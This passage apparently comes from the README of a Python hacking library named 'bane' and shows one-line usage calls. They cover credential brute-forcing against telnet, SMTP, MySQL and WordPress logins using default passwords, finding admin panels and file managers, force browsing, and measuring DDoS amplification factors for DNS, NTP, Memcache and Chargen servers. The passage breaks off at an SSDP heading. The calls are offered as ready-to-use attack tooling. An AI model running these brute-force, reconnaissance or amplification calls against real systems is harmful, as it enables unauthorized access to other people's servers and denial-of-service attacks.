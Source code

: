 <div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.hydra(IP , p=23 , protocol="telnet" , word_list=["admin:admin","admin:1234"] , timeout=5 )
<h4>SMTP server:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.hydra(IP , p=25 , protocol="smtp" , ehlo=False , helo=True , ttls=False , word_list=["admin:admin","admin:1234"] , timeout=5)
<h4>MySQL server:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.hydra(IP , p=3306 , protocol="mysqlt" , word_list=["admin:admin","admin:1234"] , timeout=5 )
<h4>WordPress login page:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.hydra(link , protocol="wp" , word_list=["admin:admin","admin:1234"] , timeout=15 )
<h4>Admin panel finder:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.admin_panel_finder(link , ext="php" , timeout=15 )
<h4>Force browsing pages on admin panel:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.force_browsing(link , ext="php" , timeout=15 )
<h4>Filemanager finder:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.filemanager_finder(link , ext="php" , timeout=15 )

# Amplification factors calculation for some protocols:

<h4>DNS:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.dns_factor( IP , timeout=3 )
<h4>NTP:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.ntp_factor( IP , timeout=3 )
<h4>Memcache:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.memcache_factor( IP , timeout=3 )
<h4>Chargen:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.chargen_factor( IP , timeout=3 )
<h4>SSDP:</h4>
